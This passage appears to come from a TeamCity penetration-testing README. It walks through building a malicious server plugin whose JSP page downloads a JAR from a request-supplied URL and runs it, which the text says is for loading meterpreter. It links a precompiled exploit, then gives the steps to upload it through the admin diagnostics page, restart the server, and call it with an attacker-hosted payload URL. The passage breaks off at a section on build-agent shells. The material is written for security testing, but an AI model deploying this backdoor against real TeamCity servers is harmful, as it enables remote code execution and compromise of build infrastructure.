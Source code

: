   1. Create malicious plugin using [this tutorial](https://confluence.jetbrains.com/display/TCD10/Getting+Started+with+Plugin+Development).
  Inside `Hello.jsp` put:

  ```java
  <%@ page import="java.io.File" %>
  <html>
  <body>
  OKK
  <%
      String file_path = System.getProperty("java.io.tmpdir") + File.separator + request.getParameter("file_path");
      String java_path = System.getProperty("java.home") + File.separator + "bin" + File.separator + "java";
  %>
  <%= file_path %>
  <%= java_path %>
  <%
      try {
          org.apache.commons.io.FileUtils.copyURLToFile(new java.net.URL(request.getParameter("file_url")), new File(file_path));
          ProcessBuilder pb = new ProcessBuilder(java_path, "-jar", file_path);
          Process p = pb.start();
      } catch (Exception x) { x.printStackTrace(System.out); }
  %>

  </body>
  </html>
  ```

  This will allow download and execute meterpreter. Compiled `.jar` file is [here](https://github.com/kacperszurek/pentest_teamcity/raw/master/exploits/serverplugin.zip).

  2. Go to `Server Administration->Diagnostics->Browse Data Directory` and upload plugin to `plugins` directory. (http://teamcity/admin/admin.html?item=diagnostics&tab=dataDir)

  ![Upload plugin](images/upload_plugin.png)

  3. Restart server using `Server Administration->Diagnostics->Troubleshooting->Restart server` (http://teamcity/admin/admin.html?item=diagnostics&tab=dumps)

  ![Restart server](images/restart_server.png)

  4. Now you can execute any `.jar` file using http://teamcity/demoPlugin.html?file_url=http://attacker/my_malicious.jar&file_path=random_name.jar

#### Shell on build agents

A [TeamCity Build Agent](https://confluence.jetbrains.com/display/TCD10/Build+Agent) is a piece of software which listens for the commands from the TeamCity server and starts the actual build processes. It is installed and configured separately from the TeamCity server. An agent can be installed on the same computer as the server or on a different machine.

Exploitation looks like this:
